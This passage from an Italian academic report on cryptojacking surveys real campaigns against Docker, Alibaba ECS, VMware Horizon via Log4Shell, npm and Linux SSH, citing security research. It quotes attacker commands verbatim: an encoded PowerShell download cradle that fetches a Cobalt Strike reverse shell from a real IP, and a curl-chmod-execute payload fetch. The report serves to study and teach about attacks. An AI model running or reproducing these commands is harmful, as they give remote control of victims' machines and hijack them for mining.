Un gruppo di hacker, chiamato WatchDog, ha attaccato i server
Docker\footnote{Docker è una piattaforma software che permette di creare,
testare e distribuire applicazioni con la massima rapidità. Docker raccoglie il
software in unità standardizzate chiamate container che offrono tutto il
necessario per la loro corretta esecuzione, incluse librerie, strumenti di
sistema, codice e runtime. - AWS} e Redis\footnote{Redis, un sistema di gestione
di database NoSQL lanciato nel 2009, utilizza un modello di archiviazione basato
su coppie chiave/valore. Ogni dato è memorizzato in un dizionario, in cui una
chiave univoca è associata a un valore specifico, rendendo semplice il recupero
delle informazioni.}. Il gruppo riusciva ad infiltrarsi nei Docker Engine API
attraverso la porta 2375 aperta, una volta dentro, gli intrusi, potevano
accedere alla Shell di comando.

\paragraph{Payload} Viene caricato nel container uno script \textbf{cronb.sh}
che va a controllare lo stato del container ed eventualmente eseguire un secondo
script \textbf{ar.sh}, il quale va sabatore completamente il container e
caricare un miner XMRRig\footnote{Un software di mining di Monero}. Un ultimo
Payload è una serie di script che gli intrusi usano per puntare ad altri sisteme
collegati alla rete del container.\cite{WatchDog}

\subsection{Malware di cryptojacking all intero di istanzer Alibaba ECS}
Come nel caso di Docker, anche in questo caso gli hacker hanno puntato alle
sfrutture cloud, ma di Alibaba. I gruppi in question esembrerebbero essere
TeamTNT, Kinsing ed altri.

I server Alibaba ECS\footnote{Elastic Compute Service} sono forniti con un
preinstallato agente di sicurezza.  

Di seguito un codice specifico del malware che crea regole firewall per
eliminare i pacchetti in entrata da intervalli IP appartenenti a zone e regioni
interne di Alibaba.

\begin{figure}[ht]
    \centering
    
\includegraphics[width=0.95\textwidth]{./images/alibaba_firewall.png}
    \caption{Codice dannoso che modifica le regole del firewall}
    \label{fig:alibaba_firewall}
\end{figure}

\begin{figure}[ht]
    \centering
    
\includegraphics[width=0.95\textwidth]{./images/alibaba_agent_disable.png}
    \caption{Script che disabilità l'agente di sicurezza di Alibaba}
    \label{fig:alibaba_agent}
\end{figure}

Quando un malware di cryptojacking è attivo su un'istanza Alibaba ECS, l'agente
di sicurezza installato, se lo rileva, notifica la presenza di uno script
dannoso. A quel punto, è compito dell'utente, gestore della piattaforma,
intervenire per arrestare l'infezione e le attività malevole. Alibaba Cloud
Security fornisce indicazioni su come procedere, ma la responsabilità principale
dell'utente rimane quella di prevenire l'infezione fin dall'inizio.

\subsection{Orde di bot attaccano gli WMware Horizon server per minare}
Nel dicembre del 2021, dopo la scoperta della falla nella di Log4J Shell (la
quale permetteva di eseguire codice da remoto) è stato rilevato un attacco ai
sistemi VMware Horizon\footnote{Applicazione dekstop che permette di
vitualizzare diverse piattaforme, particolarmente utilizzata nelle organizzioni
che prevedono smart-working}, che utilizzavano questa libreria. L'attacco è
stato fatto sffruttando una particolare risorsa di Log4J: Lightweight Directory
Access Protocol che permetteva di creare una shell web dalla quale ci si poteva
collegare da remoto.\cite{VMware}

\paragraph{Attacco: VMware -> Tomcat -> Cobalt} Gli hacker inziano l'attacco
eseguendo il servizio Tomcat che termina con l'esecuzione dello script
PowerShell, il quale a sua volta esegue una "reverse shell standard" di Cobalt
Strike:

\begin{verbatim}
    powershell.exe -exec bypass -enc 
    aQBlAHgAIAAoACgATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQB
    tAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG
    8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOAA1AC4AMQ
    AxADIALgA4ADMALgAxADEANgA6ADgAMAA4ADAALwBkAHIAdgAnACkAKQA=
\end{verbatim}

Il comando decodifica:

\begin{figure}[ht]
    \centering
    
\includegraphics[width=0.95\textwidth]{./images/powershell1.png}
    \caption{Comando su powershell}
    \label{fig:powershell_command1}
\end{figure}

Viene scaricato il file \\
\textit{sha256:6c7182d945e7e7ae8f7c289c9f4655295408cf14b72bab9686cc8dbebe845f4e}
che rappresenta la reverse shell Cobalt Strike.

Questo attacco, però, lasciava diverse tracce.

\paragraph{Attacco: Log4J -> VMware-Horizon}
Un attacco più difficile da individuare è quello che sfrutta direttamente la
falla di Log4Shell per arrivare al server Tomacat.

Nella poweshell, viene eseguito il seguente codice che permette al intruso di
prendere il controllo della macchina:

\begin{figure}[ht]
    \centering
    
\includegraphics[width=0.95\textwidth]{./images/powershell2.png}
    \caption{Comando su powershell}
    \label{fig:powershell_command2}
\end{figure}

Il quale decodificato:

\begin{figure}[ht]
    \centering
    
\includegraphics[width=0.95\textwidth]{./images/powershell3.png}
    \caption{Comando su powershell}
    \label{fig:powershell_command3}
\end{figure}

\paragraph{Payload} Sono stati rilevati diversi software di mining di Monero,
tra questi troviamo z0Mibner, JavaX miner, varianti di XMRing, Jin bot e Minu
bot. Vengono anche caricate delle backdoor\footnote{Interfaccia di rete che
permette gli intrusi di acccedere alle macchine da remoto} come impianti Silver,
agenti Atera, Splashtop Streamer e diverse reverse PowerShell.

\subsection{Attacchi alla catena di fornitura tramite librerie npm}
L'azienda produttrice di Sonatype\footnote{Antivirus} è riuscita a rilevare
malware di cryptomining nascosti al interno di librerie npm\footnote{Node
Package Manager, il gestore di pacchetti predefinito di Node.js}, le quali
vengono usate in tutto il mondo. Uo dei pacchetti malevoli individuati è stato
identificato come "ua-parser-js", questo pacchetto viene installato un numero di
volte incredibilmente alto settimanalmente e così l'infezione è riuscita a
propagarsi moltissimo orizontalmente.

\subsection{Attacco brute force nelle macchine linux}
Un gruppo di hacker nato in Romania ha attaccato le macchine Linux utilizzando
un metodo brute force SSH, chiamato \textit{Diicot brute} per decifrare le
password delle macchine con sistema operativo Linux. I crimanali avrebbero
iniettato al interno di queste macchine software per mianare Monero, in oltre
avrebbero collegato queste macchine a ben 2 botnet DDoS \footnote{Distributed
Denial of Service}: la prima è \textit{DemonBot} e la seconda \textit{IRC Perl}.

Fondamentalemente, gli hacker, cercavano credenziali di accesso deboli dei
server SSH. Per trovare questo tipo di credenziali, i criminali, andavano a
scansionare le porte dei server al fine di trovarne una aperta, una volta
individuata vanno a richiedere informazioni dal server che risponde con un
\textit{banner}. Questo banner indica che tipo di servizio offre il server, la
sua versione e nel caso sia un server SSH potrebbe dare ulteriori dettagli sulla
versione del software SSH in esecuzione. Una volta che gli hacker hanno trovato
un accesso al server SSH, utilizzano un software di brute force per identificare
credenziali valide per poi procedere con l'iniezzione del payload.

\paragraph{Payload} Gli hacker eseguono nella sessione SSH il seguente codice:

\begin{verbatim}
    curl -O http://45[.]32[.]112[.]68/.sherifu/.93joshua && 
                    chmod 777 .93joshua && ./.93joshua && uname -a
\end{verbatim}

Una volta preso il controllo della macchina, gli infiltrati installavano XMRing
nella macchina.

\subsection{Crypto farm nascoste in zone private}
Il cryptojacking, anche se nella maggior parte delle volte è effettuato
sfruttando le macchine delle vittime in alcuni casi può essere attutato andando
a gravere solo sulle risorse energetiche della vittima. Non sono infatti rari i
casi in cui i criminali installano delle farm più o meno grandi in edifici o
stanze poco frequentati/e. Uno di questi è il casi è stato scoperto in Russia,
dove la polizia di Orenburg, investigando su un eccessivo consumo di corrente,
denununciato dalla compagnia pubblica statale, ha scoperto un impianto di
farming in un edificio abbandonato. L'impianto era alimentato da un
allacciamento illegale ad una stazione di trasformazione poco lontana. Sono
stati trovati scafali e scafali di potenti GPU, nel seguente
\href{https://youtu.be/aLTTRZJIvY4}{link} è possibile trovare un video della
farm. Un altro caso noto è quello di un dipendente che scoprì una piccola farm
in un magazzino della azienda per la quale lavora. Il dipendente notò un rumore
strano provenire da una scatola su uno scafale, andandola ad aprire rivelò una
serie di GPU in serie collegate alla rete aziendale che minavano criptovalute.
Di seguito un'immagine.

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.40\textwidth]{./images/mini_farm.png}
    \caption{Farm in una scatola}
    \label{fig:mkini_farm}
\end{figure}


\newpage

\section{Conclusioni}

\newpage

\section{Bibliografia}
\begin{thebibliography}{9}

\bibitem{CSO}
Ericka Chickowski, \href{https://arc.net/l/quote/karbftmg}{Cryptojacking
explained: How to prevent, detect, and recover from it, CSO}, 20 Giugno, 2022

\bibitem{FMW}
Said Varlioglu, Nelly Elsayed, Zag ElSayed, Murat Ozer,
\href{https://arc.net/l/quote/kbarlqni}{The Dangerous Combo: Fileless Malware
and Cryptojacking}, 2022

\bibitem{Buterin Quote}
Valerio Diaco, \href{https://arc.net/l/quote/qirrmtbh}{\textit{Conosci gli
Stealth Address per star lontano dai radar?}}, Rypto.it, 15 Lugio 2023

\bibitem{BaseSAP}
Anton Wahrstatter , Matthew Solomon, Ben DiFrancesco, Vitalik Buterin, and Davor
Svetinovic \textit{BaseSAP: Modular Stealth Address Protocol for Programmable
Blockchains}, JOURNAL OF LATEX CLASS FILES, VOL. 14, NO. 8, Agosto 2021, pp. 1–6

\bibitem{Zero To Monero}
Koe, Kurt M. Alonso, Sarang Noether, \textit{Zero to Monero: Second Edition - A
technical guide to a private digital currency; for beginners, amateurs, and
experts} 4 Aprile 2020 (v2.0.0)

\bibitem{Margara}
Margara Luciano, \textit{Diffie Hellman, Crittografia su Curve Ellittiche} A.A.
2023-2024

\bibitem{EdDSA}
Simon Josefsson and Ilari Liusvaara. Edwards-Curve Digital Signature Algorithm
(EdDSA). RFC 8032, Gennaio 2017. https://rfc-editor.org/rfc/rfc8032.txt

\bibitem{WatchDog}
\href{https://cyware.com/news/watchdog-targets-docker-and-redis-servers-in-new-cryptojacking-campaign-a5681a92}{WatchDog
Targets Docker And Redis Servers In New Cryptojacking Campaign}, 06 Giugno 20222

\bibitem{Alibaba}
David Fiser, Alfredo Oliveira,
\href{https://www.trendmicro.com/en_us/research/21/k/groups-target-alibaba-ecs-instances-for-cryptojacking.html}{Groups
Target Alibaba ECS Instances for Cryptojacking}, 15 Novembre 2021

\bibitem{VMware}
Gabor Szappanos, Sean Gallagher,
\href{https://news.sophos.com/en-us/2022/03/29/horde-of-miner-bots-and-backdoors-leveraged-log4j-to-attack-vmware-horizon-servers/}{Horde
of miner bots and backdoors leveraged Log4J to attack VMware Horizon servers},
29 Marzo 2022

\bibitem{Linux Malware}
Lisa Vaas,
\href{https://threatpost.com/linux-cryptojacking-gang-romania/167783/}{Linux-Focused
Cryptojacking Gang Tracked to Romania}, 14 Giugno 2021

\bibitem{RandomX}
tevador, \href{https://github.com/tevador/RandomX}{RandomX GitHub}

\bibitem{RingCT}
Shen Noether, Monero Research Labs, \href{https://eprint.iacr.org/2015/1098}{Ring Signature Confidential Transactions for Monero}, 2015

\end{thebibliography}


\end{document}